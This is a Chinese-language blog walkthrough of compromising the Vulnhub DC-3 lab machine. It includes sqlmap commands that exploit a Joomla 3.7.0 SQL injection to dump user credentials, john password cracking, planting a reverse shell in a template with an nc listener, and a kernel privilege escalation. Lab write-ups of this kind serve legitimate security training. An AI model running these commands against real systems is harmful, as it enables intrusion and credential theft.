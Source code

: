 ```yaml
---
title: DC_3靶机渗透测试 
date: 2020-09-14 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_9.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, DC]   # 可以是数组
top: false

---
```


# DC_3靶机渗透测试

[参考链接1]([DC3靶机渗透 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1802814?from=article.detail.1801074))

[参考链接2]([靶机渗透测试实战（三）——DC-3 - 尚码园 (shangmayuan.com)](https://www.shangmayuan.com/a/8933d01639f64ed2a076712a.html))

[参考链接3]([Vulnhub靶机DC系列-DC3 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/260547.html))

[**参考链接4**]([Vulnhub - DC3 writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-07-12-DC3))

### 一、信息收集

- 发现DC_3, IP为192.168.0.106，开启80端口，http服务，cms为joomla

![image-20210623010130599](http://cdn.mxrblog.cn/image-20210623010130599.png)

- 登录192.168.0.106

![image-20210623011133176](http://cdn.mxrblog.cn/image-20210623011133176.png)

- 使用joomscan对靶机进行扫描,得到joomscan的版本是3.7.0

```
joomscan -u 192.168.0.106
```

![image-20210625224116900](http://cdn.mxrblog.cn/image-20210625224116900.png)



### 二、寻找漏洞

- 在本地漏洞库中搜索joomla 3.7.0 ， 发现sql注入漏洞



![image-20210625224354232](http://cdn.mxrblog.cn/image-20210625224354232.png)

- 查找漏洞文件，并且查看

![image-20210625224614520](http://cdn.mxrblog.cn/image-20210625224614520.png)

- **查看数据库**, 发现数据库joomladb

```
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20210625225521733](http://cdn.mxrblog.cn/image-20210625225521733.png)

- **查看表**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  --tables -p list[fullordering]
```

![image-20210625232524893](http://cdn.mxrblog.cn/image-20210625232524893.png)

- **查看列**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -columns -p list[fullordering]
```

![image-20210625233936602](http://cdn.mxrblog.cn/image-20210625233936602.png)

- **查看列名为id和password的值**

```
sqlmap -u "http://192.168.0.106/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb  -T "#__users" -C "username,password" -dump  -p list[fullordering]
```

![image-20210625234159326](http://cdn.mxrblog.cn/image-20210625234159326.png)

- 新建123.txt文件，将经过加密的密码输入进去，通过john进行解密, 密码是snoopy

```
john 123.txt
```

![image-20210625235501516](http://cdn.mxrblog.cn/image-20210625235501516.png)

- 进入后台，发现第二个默认用于所有页面的模板

![image-20210626011114780](http://cdn.mxrblog.cn/image-20210626011114780.png)

- 按照上面分析的选择第二个

![image-20210626011026448](http://cdn.mxrblog.cn/image-20210626011026448.png)



- 插入反弹shell(端口由8080改为4443)

![Screenshot 2021-06-26 011410](http://cdn.mxrblog.cn/Screenshot 2021-06-26 011410.png)

- 执行反弹shell

```
进入 http://192.168.0.106/templates/protostar/index.php
并在攻击机器上执行  nc -nlvp 4443
```

![image-20210626014102164](http://cdn.mxrblog.cn/image-20210626014102164.png)



### 三、进行提权

- 查看内核及其版本

![image-20210626014743668](http://cdn.mxrblog.cn/image-20210626014743668.png)

- 寻找相关linux漏洞，选择第二个

![image-20210626015345596](http://cdn.mxrblog.cn/image-20210626015345596.png)

- 查看内容，并下载相应文件

![image-20210626020732742](http://cdn.mxrblog.cn/image-20210626020732742.png)

![image-20210626020626676](http://cdn.mxrblog.cn/image-20210626020626676.png)

- 用python开启简单的服务器功能

```
python -m SimpleHTTPServer 9000
```

![image-20210626023629392](http://cdn.mxrblog.cn/image-20210626023629392.png)

- 这一步很重要，要不然靶机无权限下载内容

![image-20210626023758606](http://cdn.mxrblog.cn/image-20210626023758606.png)

- 靶机接收文件

![](http://cdn.mxrblog.cn/image-20210626023517587.png)

![image-20210626024815589](http://cdn.mxrblog.cn/image-20210626024815589.png)

![image-20210626024654502](http://cdn.mxrblog.cn/image-20210626024654502.png)

![image-20210626024918136](http://cdn.mxrblog.cn/image-20210626024918136.png)

![image-20210626024958777](http://cdn.mxrblog.cn/image-20210626024958777.png)



### 四、总结

- joomscan
- searchsploit
- SQL injection
- sqlmap
- lsb_release
- john
- php reverse shell
- python’s HTTP server